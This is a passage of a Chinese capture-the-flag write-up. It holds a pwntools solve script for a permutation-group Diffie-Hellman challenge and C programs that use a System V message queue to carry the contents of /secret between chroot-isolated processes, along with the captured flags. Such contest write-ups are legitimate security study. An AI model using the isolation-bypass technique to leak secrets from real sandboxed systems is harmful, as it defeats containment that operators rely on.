    print(decompose_n(29))
    context(os="linux", arch="amd64", log_level="debug")
    p = remote('202.38.93.111', 10114)
    p.recvuntil(b'Please input your token: ')
    p.sendline(b'<my token>')
    p.sendline(b'3')
    for _ in range(15):
        p.recvuntil(b'[+] DH public key: n = ')
        raw = p.recvuntil(b'\n')
        n = eval(raw)
        p.recvuntil(b'> your generator 0 (a list): ')
        g1, g2 = generate_my_pk(n)
        p.sendline(str(g1).encode('ascii'))
        p.recvuntil(b'[+] The public key 0 : ')
        raw = p.recvuntil(b']')
        y1 = eval(raw)
        p.recvuntil(b'> your generator 1 (a list): ')
        p.sendline(str(g2).encode('ascii'))
        p.recvuntil(b'[+] The public key 1 : ')
        raw = p.recvuntil(b']')
        y2 = eval(raw)

        g1 = permutation_element(n, g1)
        g1.standard_tuple.sort(key=lambda _x: len(_x))
        y1 = permutation_element(n, y1)
        e = []
        equations = []
        for i in range(len(g1.standard_tuple)):
            e.append(get_e(n, g1.standard_tuple[i], g1, y1))
            equations.append(Equation(e[i], len(g1.standard_tuple[i])))
        result = equations[0]
        for i in range(1, len(equations)):
            result.merge(equations[i])
        x = result.r
        assert x < g1.order()
        assert g1 ** x == y1

        g2 = permutation_element(n, g2)
        g2.standard_tuple.sort(key=lambda _x: len(_x))
        y2 = permutation_element(n, y2)
        e = []
        equations = []
        for i in range(len(g2.standard_tuple)):
            e.append(get_e(n, g2.standard_tuple[i], g2, y2))
            equations.append(Equation(e[i], len(g2.standard_tuple[i])))
        for i in range(len(equations)):
            result.merge(equations[i])
        x = result.r
        assert g1 ** x == y1
        assert g2 ** x == y2
        p.recvuntil(b'your answer: ')
        p.sendline(str(x).encode("ascii"))
    p.sendline(b'-1')
    p.recvall()
```

```
flag{choose_max_0rder_generator_l00k5_f1ne_a3df3afe09}
```

## 看不见的彼方（官方题解在干嘛。。。？）

> 很无聊的题目，至少我觉得是这样的。因为手上有《UNIX环境高级系统编程》这本书的话，直接抄代码就行了。这里建议出题者去买一本QAQ

进程间通信即可。查书可知有管道、XSI IPC（共享内存、信号量、消息队列）、socket等方式

命名管道（FIFO）在chroot的情况下无法使用，socket已经在题目里说明被禁用了，那么很明显用XSI IPC就行了，这里我使用了消息队列（以及很明显共享内存也是可以的）

Alice如下

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <time.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/ipc.h>
#include <sys/msg.h>
#include <fcntl.h>
#include <string.h>
struct mymesg
{
    long mtype;
    char mtext[512];
};

int main(int argc, char **argv)
{
    key_t key = 0xDEADBEEF;
    int msgid = msgget(key, IPC_CREAT | IPC_EXCL | 0666);
    struct mymesg alice;
    alice.mtype = 114514;
    FILE *secret_fd = fopen("/secret", "r");
    fscanf(secret_fd, "%s", alice.mtext);
    fclose(secret_fd);
    msgsnd(msgid, &alice, strlen(alice.mtext), 0);
    sleep(5);
    msgctl(msgid, IPC_RMID, NULL);
    return 0;
}
```

Bob如下

```C
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <time.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/ipc.h>
#include <sys/msg.h>
#include <fcntl.h>
#include <string.h>
struct mymesg
{
    long mtype;
    char mtext[512];
};

int main(int argc, char **argv)
{
    fprintf(stderr, "This is BOB. It is %ld.\n", time(0));
    key_t key = 0xDEADBEEF;
    int msgid = msgget(key, IPC_CREAT | 0666);
    if (msgid < 0)
    {
        fprintf(stderr, "`msgget` error.");
        return 0;
    }
    struct mymesg bob;
    if (msgrcv(msgid, &bob, sizeof(bob), 114514, 0) < 0)
    {
        fprintf(stderr, "`msgrcv` error.");
        return 0;
    }
    puts(bob.mtext);
    return 0;
}
```

```
flag{ChR00t_ISNOTFULL_1501AtiOn_2294b18b39}
```
